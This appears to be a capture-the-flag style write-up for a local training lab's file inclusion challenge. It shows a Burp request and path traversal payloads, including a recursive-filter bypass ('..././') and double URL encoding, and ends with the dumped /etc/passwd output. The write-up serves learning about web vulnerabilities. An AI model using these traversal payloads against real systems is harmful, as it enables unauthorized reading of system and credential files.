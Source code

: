 
## [Labs](http://localhost/index.php) / File Inclusion 0x02

## Select a recipe:


select a recipe and once again u see that its being passed in the url come to burp and take a look at this request

```python
GET /labs/fi0x02.php?filename=files%2Fchocolate_cake.txt HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Referer: http://localhost/labs/fi0x02.php?filename=
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
```

instead of looking for etc/passwd test for remote file inclusion where we fetch a remote resource 
first
`../../../../../../etc/passwd`
We get some warning here 
```python
Warning</b>:  file_get_contents(etc/passwd): failed to open stream: No such file or directory in <b>/var/www/html/labs/fi0x02.php</b>
```
Our payload ../ is being filtered Few ways to bypass this first is encoding 
On the burp suite select the payload 
Convert Selection -> URL -> URL Encoding All Characters And Hit Send 
unfortunately this will be translated back to ../../../../ the filter will kick it 
we can encode twice sometimes to bypass filters
The other Thing to Check for is
*Filter is Recursive* 
..././..././..././..././etc/passwd
```python
div class="file-content">
                    root:x:0:0:root:/root:/bin/bash<br />
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin<br />
bin:x:2:2:bin:/bin:/usr/sbin/nologin<br />
sys:x:3:3:sys:/dev:/usr/sbin/nologin<br />
sync:x:4:65534:sync:/bin:/bin/sync<br />
games:x:5:60:games:/usr/games:/usr/sbin/nologin<br />
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin<br />
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin<br />
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin<br />
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin<br />
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin<br />
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin<br />
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin<br />
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin<br />
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin<br />
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin<br />
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin<br />
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin<br />
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin<br />
                </div>
```

